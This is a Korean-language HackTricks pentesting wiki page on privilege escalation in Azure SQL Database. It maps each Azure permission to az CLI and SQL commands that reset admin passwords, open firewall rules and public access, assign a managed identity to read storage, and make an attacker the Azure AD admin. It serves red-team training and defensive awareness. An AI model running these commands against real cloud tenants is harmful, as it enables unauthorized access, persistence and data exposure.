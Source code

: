 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

SQL Database에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

이 권한을 가진 사용자는 Azure SQL 서버를 업데이트하거나 생성하고, 관리 자격 증명을 포함한 중요한 구성을 수정하여 권한 상승을 수행할 수 있습니다. 이 권한은 사용자가 SQL 서버 관리자 비밀번호를 포함한 서버 속성을 업데이트할 수 있게 하여, 서버에 대한 무단 접근 또는 제어를 가능하게 합니다. 또한 새로운 서버를 생성할 수 있어, 악의적인 목적으로 그림자 인프라를 도입할 수 있습니다. "Microsoft Entra Authentication Only"가 비활성화된 환경에서는 SQL 기반 인증을 악용하여 무제한 접근을 얻을 수 있으므로 특히 중요해집니다.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
또한 비공개 엔드포인트가 아닌 곳에서 접근하려면 공개 액세스를 활성화해야 합니다. 활성화하려면:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
또한, 권한을 통해 할당된 ID를 활성화하고 서버에 연결된 관리 ID로 작업할 수 있습니다. 예를 들어, Azure Storage에 접근할 수 있는 관리 ID가 있는 경우:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

공격자는 Azure SQL 서버의 방화벽 규칙을 조작하여 무단 액세스를 허용할 수 있습니다. 이를 통해 특정 IP 주소나 전체 IP 범위, 공용 IP를 포함하여 서버를 열 수 있으며, 악의적인 행위자에게 접근을 가능하게 합니다. 이 사후 활용 활동은 기존 네트워크 보안 제어를 우회하고, 지속성을 확립하거나, 민감한 리소스를 노출시켜 환경 내에서 수평 이동을 촉진하는 데 사용될 수 있습니다.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
또한, `Microsoft.Sql/servers/outboundFirewallRules/delete` 권한을 사용하면 방화벽 규칙을 삭제할 수 있습니다.  
참고: 공용 액세스를 활성화해야 합니다.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

이 권한을 사용하면 Azure SQL Server에서 IPv6 방화벽 규칙을 생성, 수정 또는 삭제할 수 있습니다. 이는 공격자나 권한이 있는 사용자가 기존 네트워크 보안 구성을 우회하고 서버에 무단으로 접근할 수 있게 할 수 있습니다. 모든 IPv6 주소에서 트래픽을 허용하는 규칙을 추가함으로써, 공격자는 서버를 외부 접근에 열 수 있습니다.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
또한, `Microsoft.Sql/servers/ipv6FirewallRules/delete` 권한을 사용하면 방화벽 규칙을 삭제할 수 있습니다.  
참고: 공용 액세스를 활성화해야 합니다.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

이 권한을 사용하면 Azure SQL Server 환경에서 SQL 데이터베이스에 접근하고 중요한 정보를 검색하여 권한 상승을 할 수 있습니다. 아래 명령어를 사용하면 공격자나 권한이 있는 사용자가 자신 또는 다른 계정을 Azure AD 관리자 계정으로 설정할 수 있습니다. "Microsoft Entra Authentication Only"가 활성화된 경우 서버 및 해당 인스턴스에 접근할 수 있습니다. SQL 서버의 Azure AD 관리자를 설정하는 명령어는 다음과 같습니다:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

이 권한을 사용하면 Azure SQL Server에서 "Microsoft Entra Authentication Only"를 구성하고 시행할 수 있으며, 이는 특정 시나리오에서 권한 상승을 촉진할 수 있습니다. 공격자 또는 이러한 권한을 가진 승인된 사용자는 Azure AD 전용 인증을 활성화하거나 비활성화할 수 있습니다.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
